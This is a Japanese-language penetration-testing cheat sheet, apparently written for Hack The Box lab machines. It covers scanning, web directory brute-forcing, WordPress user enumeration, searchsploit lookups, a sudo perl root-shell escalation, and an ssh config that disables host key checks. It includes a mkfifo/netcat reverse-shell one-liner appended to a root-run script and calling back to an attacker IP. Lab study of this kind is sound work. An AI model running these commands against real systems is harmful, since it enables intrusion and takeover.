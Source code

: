 
# My Cheat Sheet

## 探索

### nmap
```
nmap -sC -sV -O -v -oV 10.10.10.17
```

### nmap tips

https://muchipopo.com/ctf/cheatsheet-oscp/

### AutoRecon
```
┌──(kali㉿kali)-[~/Documents/Beep]
└─$ python3 ../AutoRecon/autorecon.py 10.10.10.7 
```

https://github.com/Tib3rius/AutoRecon

## ssh
ssh でエラーが出る場合  
```/etc/ssh/ssh_config```  

```
HOST *
KexAlgorithms +diffie-hellman-group1-sha1,diffie-hellman-group14-sha1
IgnoreUnknown UseKeychain,AddKeysToAgent
UseKeychain yes
AddKeysToAgent yes
Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc
StrictHostKeyChecking no
UserKnownHostsFile /dev/null
HostKeyAlgorithms ssh-dss,ssh-rsa
PubkeyAcceptedAlgorithms +ssh-rsa
```

## http/https 

### http 探索
```
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt
```

**https** の場合は **-k** が必要

```
gobuster dir -u https://beep.htb/ -w /usr/share/wordlists/dirb/common.txt -k
```

```
feroxbuster -u http://shocker.htb -f -n
feroxbuster -u http://shocker.htb/cgi-bin/ -x sh,cgi,pl
```
```
dirb http://10.10.10.56/cgi-bin/ -X .sh,.pl,.txt,.php,.py
```

### WordPress
```
wpscan --url https://brainfuck.htb --disable-tls-checks
```
### Word Press username 列挙
```
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```

### Word Press admin page

```
https://brainfuck.htb/wp-admin/
```

## exploit code 

### searchsploit 検索
```
searchsploit wordpress plugin wp support
```

### searchsploit 詳細表示
```
searchsploit -x 41006.txt
```
### searchsploit Download
```
searchsploit -m 37637
```

### sudo -l
root 権限で実行できるファイルが確認できる
```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh <<<<< HERE
```

## root 権限

### perl -e 'exec "/bin/sh";'
https://gtfobins.github.io/gtfobins/perl/
```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
```

### netcat /tmp/f
sudo -l で root 権限で実行できるファイルを見つけ、以下コマンドで netcat できるようにする。
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 8443 >/tmp/f' | tee -a monitor.sh
```

```
└─$ nc -lvnp 8443
listening on [any] 8443 ...
```

## Tips

### reverse_shells
https://gist.github.com/sckalath/67a59eb4955f1f9aedde

